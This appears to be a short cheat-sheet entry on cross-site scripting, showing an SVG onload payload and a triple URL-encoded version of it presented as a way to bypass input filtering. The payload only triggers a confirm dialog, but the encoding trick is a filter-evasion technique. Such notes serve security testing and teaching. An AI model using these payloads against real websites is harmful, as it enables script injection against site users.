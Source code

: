 # Cross Site Scripting

## Triple URL Encoding
  - Encode the payload thrice using URL encoding.

Restricted:
```CSS
"><svg onload=confirm(‘XSS’)> 
```
Bypassed:
```CSS
%252522%25253E%25253Csvg%252520onload%25253Dconfirm%252528%2525E2%252580%252598XSS%2525E2%252580%252599%252529%25253E
```
---

